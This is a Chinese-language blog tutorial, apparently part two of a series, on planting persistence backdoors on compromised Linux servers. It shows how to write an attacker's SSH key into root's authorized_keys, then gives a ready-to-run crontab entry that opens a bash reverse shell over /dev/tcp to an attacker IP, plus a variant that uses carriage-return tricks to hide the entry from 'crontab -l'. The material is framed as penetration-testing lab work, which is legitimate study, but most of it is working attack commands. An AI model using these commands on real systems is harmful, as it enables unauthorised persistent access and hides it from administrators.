 ```yaml
---
title: linux 服务器常见的留后门方式（二）
date: 2022-4-2 23:36:35
tags: [Backdoor,Linux,Kali]
categories: 
 - [Penetration Test,后门]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- SSH公钥免密
- crontab后门
...

## SSH公钥免密

简而言之，**SSH公钥免密**就是，将**攻击者**生成的 **ssh公钥**写到**目标服务器**的`/root/.ssh/authorized_keys`中（手动在目标机上完成注册），
然后**攻击者**就可以利用对应的**私钥**免密登录。

**实现：**
1. 使用 **Xshell** 的 工具 -> 新建用户密钥生成向导，完成**ssh公钥、私钥**的生成：![image-20230426010853712](https://res.cloudinary.com/sycamore/image/upload/v1682442537/Typera/2023/04/0c7400e842c42ccbcd324c9147cf6c24.png)
（填入密码)
<br>
2. 保存生成的公钥文件（id_rsa_2048.pub），传到**目标服务器**上，![image-20230426010925673](https://res.cloudinary.com/sycamore/image/upload/v1682442569/Typera/2023/04/8a2edc41bc3463490d0617bcbbd9acd1.png)
<br>
3. 寻找 **authorized_keys** 文件，命令`find -name authorized_keys`，
如果没有，就通过命令`touch /root/.ssh/authorized_keys`创建。
<br>
4. 命令`ssh-keygen -t rsa`开启免密登录功能，
<br>
5. 通过命令`cat 公钥路径 >> /root/.ssh/authorized_keys`把公钥写入到**authorized_keys**，完成注册
<br>
6. 修改文件权限`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`
<br>



7. 攻击者使用**Xshell**生成的**私钥**和之前填写的**密码**，登录目标服务器![image-20230426010955314](https://res.cloudinary.com/sycamore/image/upload/v1682442599/Typera/2023/04/f0b36186750c7e6ae6e0cfb6e31536aa.png)![image-20230426011015095](https://res.cloudinary.com/sycamore/image/upload/v1682442619/Typera/2023/04/3707348bcf16ceccd18bb0594ff0933d.png)

## crontab后门

**Crond**服务启动后，会**定期**（默认一分钟检查一次）检查它的配置文件中，是否有要执行的任务。
如果有，就会根据**预先设定**的**定时任务规则**自动执行该任务。
crontab是用来定期执行程序的命令，
我们可以通过**crontab**命令制造定时后门：
`(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -`

**解释：**
`echo '*/60 * * * *'`：设定每60分钟执行一次；
`exec 9<>/dev/tcp/192.168.158.132/2333`：利用bash提供的功能，对`/dev/tcp/`开头的字符串进行**解析**，指定**服务器IP**为：192.168.158.132（**攻击机**IP），**端口号**为 2333，指定描述符为9，建立网络连接；
`exec 0<&9;exec 1>&9 2>&1;`：**文件描述符** 0：stdin，1：stdout，把标准输入输出**都**重定向到描述符9；
`/bin/bash --noprofile -i`：开一个Shell。
其实就是利用 Bash **反弹**一个**Shell**到指定的攻击者IP

（ubuntu默认**没开**bash的网络重定向选项，需要加上`–enable-net-redirections`重新编译bash）

**隐藏：**
但是这样的一个后门，管理员直接执行`crontab -l`就能看到我们设定的定时任务。
![image-20230426011055514](https://res.cloudinary.com/sycamore/image/upload/v1682442659/Typera/2023/04/e8f07ae16e6573488c17eeea6f3339f2.png)
这个命令其实是在读取 `/var/spool/cron/crontabs/root`文件。
所以，我们可以利用cat的一个缺陷，使用一些**转义字符**，比如 \r 回车符 \n 换行符 \f 换页符，来**隐藏**我们不想让管理员看到的命令：
`(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`
![image-20230426011110789](https://res.cloudinary.com/sycamore/image/upload/v1682442674/Typera/2023/04/0af7f80743588f2bae6b80f3903e55c6.png)但是，若是使用`cat -A /var/spool/cron/crontabs/root`还是可以看到我们隐藏的东西的。

